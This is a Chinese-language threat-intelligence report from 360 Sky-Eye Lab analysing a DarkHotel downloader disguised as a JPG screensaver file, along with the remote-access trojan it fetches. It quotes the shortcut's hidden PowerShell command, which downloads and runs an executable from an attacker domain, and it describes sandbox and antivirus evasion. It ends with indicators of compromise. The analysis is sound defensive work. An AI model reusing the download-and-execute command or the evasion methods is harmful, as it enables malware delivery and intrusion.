 # DarkHotel定向攻击样本分析

**Author：360天眼实验室**

0x00 引言
=======

* * *

人在做，天在看。

360天眼实验室追日团队持续发现与跟踪APT活动，相关的样本、IP、域名等数据只要一出现就会立即进入我们的视线。5月10日VirusTotal上有人提交了一个样本，安博士标记为DarkHotel相关。

![](http://drops.javaweb.org/uploads/images/7f3b52d3bf81c5df88462347f0ec136b248761d6.jpg)

DarkHotel团伙在2014年被卡巴斯基做过一次暴光，但直到最近还一直非常活跃，下面我们来对VT上的这个样本做个简单的分析。

0x01 样本分析
=========

* * *

基本信息
----

样本MD5：43f3b56c1c01b007c35197c703e4d6a6  
样本大小：131,072 Bytes  
编译时间：2015-10-15 22:52:30  
文件名：DSC3013.JPG.scr

样本截图：

![](http://drops.javaweb.org/uploads/images/e3ff102146efffe339170e1f38d4aacac5015913.jpg)

详细行为
----

总体来说，样本的功能很简单，是一个典型的下载器诱饵。得到点击运行机会以后，样本会从自身释放3个图片和1个快捷方式到TEMP目录下；调用mspaint打开3个图片中的一个文件，执行TEMP目录下的快捷方式，快捷方式运行起来后会启动powershell从`http://all-microsoft-control.com/kd/f.exe`下载PE并执行。

样本首先会获取TEMP目录的路径：

![](http://drops.javaweb.org/uploads/images/85e06141c1e681a40858c8796671002ef094408c.jpg)

然后拼出4个路径：

```
%temp%\DSC3013.JPG
%temp%\DSC3014.JPG
%temp%\DSC3015.JPG
%temp%\desktop.lnk

```

![](http://drops.javaweb.org/uploads/images/40acf4ca577a3f11c42e18197a81fc843e0d151c.jpg)

会从自身文件的0x406b20的偏移处读取0xead字节的数据写入到DSC3013.JPG、DSC3014.JPG和DSC3015.JPG文件中；

![](http://drops.javaweb.org/uploads/images/f699fa89ecd2c45efc1ba0bc6ac273f17ec1ff2b.jpg)

数据为JPG图片格式文件，如图：

![](http://drops.javaweb.org/uploads/images/12186ad4336487d3114c0d47de0726ba35ded564.jpg)

图片是纯白色背景的JPG文件，因为这种纯色文件通过JPG格式的压缩后占用的空间比较小。

![](http://drops.javaweb.org/uploads/images/a2c2158bd4642665e3a091e1f6438b7eef341eff.jpg)

数据同时写入到刚才创建的3个隐藏的图片文件中，CreateFile的倒数第二个参数为2，表示该文件是隐藏的状态。

![](http://drops.javaweb.org/uploads/images/f993338f7b7e4219f0b278ee58e672745943f814.jpg)

之后会调用mspaint.exe打开DSC3013.jpg文件，因为木马样本的文件名为DSC3013.JPG.scr，而且木马样本也是图片图标，所以用图片打开DSC3013.jpg文件迷惑受害者:

![](http://drops.javaweb.org/uploads/images/291ecf679ed3584266b0807dfb1b8558096fc8da.jpg)

接下来会在同目录下再创建3个不隐藏的图片文件，并写入同样的数据：

![](http://drops.javaweb.org/uploads/images/1792df6129e370999c5255a58b55e8afbc91905f.jpg)

然后创建隐藏的desktop.lnk文件，把从文件的0x406088 处读取到的数据写入到该文件，并通过ShellExecute运行起来该快捷方式文件：

![](http://drops.javaweb.org/uploads/images/aff8de39d72fd6feeb18dacef834449c7bb49ce1.jpg)

文件的0x406088偏移处是一个快捷方式格式的文件，如图能看到快捷方式的参数信息：

![](http://drops.javaweb.org/uploads/images/0c4b7b8ff9aa44bfa6e112089f93cc814dfffdbe.jpg)

把该块数据段保存成LNK文件，命令行参数如下：

![](http://drops.javaweb.org/uploads/images/c0ae946d038fc1a2dd3e1611c5ae98a8a384e7bf.jpg)

快捷方式指向的目标为：

`%COMSPEC% /c powershell -windowstyle hidden (new-object System.Net.WebClient).DownloadFile('http://all-microsoft-control.com/kd/f.exe ','%temp%\~$ER96F.doc')&&echo f|xcopy %temp%\~$ER96F.doc %temp%\dwm.exe /H /Y&&%temp%\dwm.exe`

所以快捷方式被执行起来后，会调用powershell从`http://all-microsoft-control.com/kd/f.exe`下载到`%temp%\~$ER96F.doc`，并把该文件重命名为dwm.exe后，运行起来。

最后会在同目录下生成desktop.bat，并把“`del *.scr\r\ndel *.bat`”代码写入进去，试图删除掉该目录下所有的scr和bat后缀的文件，让目录看起来只有正常的图片文件。

![](http://drops.javaweb.org/uploads/images/5349d312c2a48b4b9e4fcf65a21c76161703a255.jpg)

远控木马
----

目前通过URL下载的dwm.exe已经失效，但从360公司海量的样本库中找到了这个文件不难：

![](http://drops.javaweb.org/uploads/images/efc965460a033827dd5dafeb4427c442779953ce.jpg)

分析显示此dwm.exe是一个使用OpenSSL协议的远控木马：

![](http://drops.javaweb.org/uploads/images/8b27481d462bd4ae566e237c5f6250162ede27d5.jpg)

样本的字符串加密存储样本里的，关键API都用解密后的字符串动态加载：.

![](http://drops.javaweb.org/uploads/images/290357c0758e3f8257638271f0078a5ddd599c7e.jpg)

sub_497036是字符串的解密函数：

![](http://drops.javaweb.org/uploads/images/94621c1b9b37b2aeaa0c4ceaf3ec9601dec0a38a.jpg)

样本会检测虚拟机、沙箱和杀软：

卡巴

![](http://drops.javaweb.org/uploads/images/5e8200cbce3573141be7bd758f50c4a8fed9c8ea.jpg)

沙箱检测：

![](http://drops.javaweb.org/uploads/images/1f33f865654d46eb8ed510689ea0d4ded5c4d506.jpg)

![](http://drops.javaweb.org/uploads/images/dff78d26a4921045c500c627c36ea7f5b34a38ee.jpg)

检测360的产品:

![](http://drops.javaweb.org/uploads/images/ff2a2901f6810056afebfebcfd51f86c4797f2ca.jpg)

检测金山和baidu的安全产品：

![](http://drops.javaweb.org/uploads/images/b3bf74a85abe4b08cfd67d45c53da138a49f0579.jpg)

检测通过后，会连接C&C地址的80端口，走SSL通信协议，把请求的数据包加密放到URL里，然后进行通信：

![](http://drops.javaweb.org/uploads/images/39916c4865bb12587e96fb64e4492ddd6d391c67.jpg)

C&C域名为：view-drama-online.com

相关分析
----

使用高级账号查询360威胁情报中心，样本涉及的域名[all-microsoft-control.com](https://www.virustotal.com/zh-cn/url/62e1dae33f17ff45a4aadbc40359940390eefbcf6da0a171ad8447f4a4767780/analysis/1463138828/)其实早就被内部分析团队打上了相关的标签，而外部的大部分威胁情报平台对此域名没有做什么恶意性标记：

![](http://drops.javaweb.org/uploads/images/81cffc8d4dc652b8c81924ba4fb6339b76a69ac8.jpg)

域名注册于2015年7月26日，在卡巴斯基在2014年的揭露报告以后注册，由此可见APT团伙在被公开以后并不会停止活动，根据我们的分析甚至手法上都没有大的改变。

虽然目前我们从那个域名已经下载不到 .EXE 的进一步恶意代码，但威胁情报中心包含的同源样本沙箱日志记录告诉我们还有多个历史下载路径：

![](http://drops.javaweb.org/uploads/images/55ca45c8cbd767b67e5aaf23d7c1d969111536ee.jpg)

事实上，利用360威胁情报中心的基础数据，从一个域名、样本出发我们可以把DarkHotel团伙相关的很大一部分所使用的工具和网络基础设施信息关联出来，在此基础上分析其活动历史，甚至最终定位到幕后的来源。

关联组织
----

360公司内部的长期跟踪了代号为APT-C-06的境外APT组织，其主要目标除了中国，还有其他国家，主要目的是窃取敏感数据信息，DarkHotel的活动可以视为APT-C-06组织一系列活动之一。在针对中国地区的攻击中，该组织主要针对政府、科研领域进行攻击，且非常专注于某特定领域，相关攻击行动最早可以追溯到2007年，至今还非常活跃。

该组织多次利用0day漏洞发动攻击，进一步使用的恶意代码非常复杂，相关功能模块达到数十种，涉及恶意代码数量超过200个。该组织主要针对Windows系统进行攻击，近期还会对基于Android系统的移动设备进行攻击。另外该组织进行载荷投递的方式除了传统的鱼叉邮件和水坑式攻击等常见手法，还主要基于另一种特殊的攻击手法。

我们将APT-C-06组织和其他APT组织的TTPs（战术、技术与步骤）进行了对比分析，该组织无论是整体实力还是威胁等级在现有的APT组织中都是属于很高的级别。从我们掌握的证据来看该组织有可能是由境外政府支持的黑客团体或情报机构。

0x02 IOC
========

* * *

| 类型 | 值 |
| --- | --- |
| Downloader Domain | all-microsoft-control.com |
| C&C Domain | view-drama-online.com |